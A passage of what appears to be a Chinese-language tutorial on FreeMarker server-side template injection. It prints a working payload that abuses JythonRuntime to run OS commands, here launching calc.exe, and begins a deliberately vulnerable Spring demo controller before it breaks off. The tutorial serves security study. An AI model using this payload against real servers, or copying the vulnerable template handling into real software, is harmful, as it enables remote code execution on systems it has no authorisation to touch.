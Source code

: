 freemarker.template.utility 里面的JythonRuntime，可以通过自定义标签的方式，执行Python命令，从而构造远程命令执行漏洞。



```
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")</@value>
```

这里使用测试代码来大概演示一下：https://github.com/hellokoding/springboot-freemarker

代码演示说明：https://hellokoding.com/spring-boot/freemarker/

前端代码　　——>　　hello.ftl



```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Hello ${name}!</title>
    <link href="/css/main.css" rel="stylesheet">
</head>
<body>
    <h2 class="hello-title">Hello ${name}!</h2>
    <script src="/js/main.js"></script>
</body>
</html>
```

后端代码　　——>　　HelloController.java：



```
package com.backendvulnerabilities.ssti;

import freemarker.cache.MultiTemplateLoader;
import freemarker.cache.StringTemplateLoader;
import freemarker.cache.TemplateLoader;
import freemarker.template.Configuration;
import freemarker.template.Template;
import freemarker.template.TemplateException;
import freemarker.template.utility.DateUtil;
import org.springframework.beans.factory.annotation.Autowired;
import org.springframework.stereotype.Controller;
import org.springframework.ui.Model;
import org.springframework.web.bind.annotation.*;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.StringWriter;
import java.util.HashMap;
import java.util.Map;

@Controller
public class HelloController {

    @Autowired
    private  Configuration con;

    @GetMapping("/")
    public String index() {
        return "index";
    }

    @RequestMapping(value = "/hello")
```
